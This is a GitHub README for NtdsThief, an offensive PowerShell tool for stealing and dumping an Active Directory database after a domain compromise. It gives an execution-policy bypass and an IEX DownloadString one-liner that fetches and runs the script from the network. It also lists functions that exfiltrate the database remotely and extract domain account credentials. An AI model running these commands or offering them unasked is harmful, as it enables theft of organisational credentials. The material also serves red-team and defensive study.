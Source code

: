 # NtdsThief

NtdsThief is a PowerShell tool to exploit Active Directory database after compromising a Windows domain.

## Usage

To run on a machine, start PowerShell and then load the module:

```
PS C:\> powershell -EP bypass
PS C:\> IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/tmenochet/NtdsThief/master/NtdsThief.ps1')
```

## Functions

```
Get-NtdsDatabase                -   steals Active Directory database remotely
Dump-NtdsDatabase               -   dumps domain accounts from an Active Directory database
Mount-NtdsDatabase              -   mounts an Active Directory database as a local LDAP server
Invoke-LdapSearch               -   searchs for domain objects in a mounted Active Directory database
```

## Credits

* https://blog.netspi.com/getting-started-wmi-weaponization-part-4/
* https://github.com/MichaelGrafnetter/DSInternals
